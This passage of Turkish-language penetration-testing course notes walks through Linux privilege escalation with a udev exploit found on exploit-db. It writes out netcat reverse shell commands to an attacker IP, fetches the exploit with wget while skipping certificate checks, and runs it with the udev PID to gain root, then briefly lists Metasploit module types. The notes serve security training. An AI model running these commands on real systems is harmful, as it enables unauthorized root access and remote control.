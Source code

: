 		B> uname -a (Kernel bilgisi)
		B> cat /etc/issue (İşletim sistemi bilgisi)
		B> cat /etc/lsb-release (İşletim sistemi bilgisi -garanti-)

- Bulduğumuz hedefte exploit'in derlenmesi için (eğer exploit C benzeri derlenen bir dil ile yazılmışsa) compiler olması gerekir ve exploiti hedef makinedeki compiler ile aynı versiyondaki bir compiler ile compile etmemiz gerekir.

		B> ubuntu 8.04 kernel 2.6 site:exploit-db.com

- UDEV, *nix tabanlı işletim sistemlerinde driver menajeridir.

		B> udevadm --version (Hedefin udev versiyonunu öğrenmek için)

**- Kendi interaktif bağlantımızı elde etmek ve aradan cmd.jsp'yi çıkarmak için aşağıdaki işlemleri yaparız:**

    => nc -lvp 9090 -e /bin/bash
    B> whereis nc	(/bin/nc.traditional)
    B> nc OUR_IP 9090 -e /bin/bash

- nc kullanırken -e parametresi ile ilk gelen bağlantıya /bin/bash'i veririz. Ancak bunu kullanabilmemiz için nc.traditional versiyonunun hedefte ve kendimizde yüklü olması lazım.

**- Kendi interaktif bağlantımızı elde ettikten sonra:**

	S> gcc --version	(Hedefte gcc var!)
	S> cd /tmp
	S> wget EXPLOIT		(Eğer hata verirse SSL sertifikalarını kontrol etmeden indirmesi için aşağıdaki komutu kullanırız)
	S> wget EXPLOIT --no-check-certificate

- Exploitin açıklamasından nasıl kullanıldığına bakıyoruz. "run" adında bir shell script oluşturuyoruz. Çünkü kullanacağımız exploit run dosyasını root yetkisinde çalıştıracak.

		S> echo "!/bin/bash" > run
		S> echo "nc <our_ip> <our_port> -e /bin/bash" >> run
		S> gcc kamp.c -o bga

- Exploitin bizden ayrıca istediği bir argüman var.

		S> ps aux | grep udex

- udev PID -1 i argüman olarak kullanıyoruz.

		=> nc -lvp <our_port>
		S> ./bga 2692
		SS> whoami	(ROOT)

- Bu işlemleri otomatize etmek için Metasploit-Framework kullanırız.

- dissassembler kullanarak exploit içerisindeki shellcode'ları inceleyebiliriz.

## MSF Modüllerleri
1) Auxiliary
2) Exploit
3) Payload
4) Encoders
